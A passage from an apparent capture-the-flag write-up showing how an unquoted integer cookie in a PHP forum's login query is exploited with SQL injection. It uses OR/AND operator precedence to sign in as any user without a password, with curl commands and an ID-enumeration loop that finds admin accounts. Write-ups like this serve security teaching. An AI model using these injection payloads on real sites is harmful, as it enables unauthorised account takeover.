 Notice how the user id (which is expected to be an integer) is not surrounded by quotes. `mysqli_real_escape_string` just sanitizes `NUL (ASCII 0), \n, \r, \, ', ", Control-Z`, meaning we can enter anything else and refactor the SQL query without being detected. 

The first thing that came to mind was to comment out the rest of the query by setting the `user_id` cookie value to `"100 --"`. This should produce the following query:

```sql
SELECT user_id, user_name, user_level FROM users WHERE  user_id = 100 -- AND user_name = 'my_user' AND user_pass = 'my_pass'";
```

However, this didn't work, and other comment styles didn't affect the query either.

Another strategy would be to rewrite the query by taking advantage of MySQL's operator precedence and OR short-circuit evaluation. MySQL evaluations OR operators after finishing evaluating AND operators. So a query such as `SELECT true OR false AND false;` would return `true` since first the engine evaluates `false AND false` to `false` and then `true or false` to `true`.

In our example, this would map to setting the `user_id` cookie to `"100 or user_id = 9999"`, creating a query of:
```sql
SELECT user_id, user_name, user_level FROM users WHERE  user_id = 100 or user_id = 9999 AND user_name = 'my_user' AND user_pass = 'my_pass'";
```

Such a query should return the user entry for the user with ID `100` regardless of the password. Let's try it:

```console
root@kali:/media/sf_CTFs/technion/High_School_Project# curl 'http://ctf.cs.technion.ac.il:4010/'  -H "Cookie: user_id=100 or user_id = 9999 ; user_name=a; user_pass=a" -s | grep "Sign out"
    Hello 5845653! Not you? <a href="signout.php">Sign out</a>  </div>
```

We can see that the forum has identified us as the user with username `5845653` even without entering a password.

The next thing we'd like to do is search for the admin account:

```console
root@kali:/media/sf_CTFs/technion/High_School_Project# for i in {0..10}; do echo $i; curl 'http://ctf.cs.technion.ac.il:4010/'  -H "Cookie: user_id=$i or user_id = 99
99 ; user_name=a; user_pass=a" -s | grep "Sign out" && echo; done
0
1
2
3
4
    Hello admin! Not you? <a href="signout.php">Sign out</a>  </div>

5
6
    Hello admin1! Not you? <a href="signout.php">Sign out</a>  </div>

7
8
    Hello admin2! Not you? <a href="signout.php">Sign out</a>  </div>

9
    Hello DuckyDebugDuck! Not you? <a href="signout.php">Sign out</a>  </div>

10
    Hello hey! Not you? <a href="signout.php">Sign out</a>  </div>
```
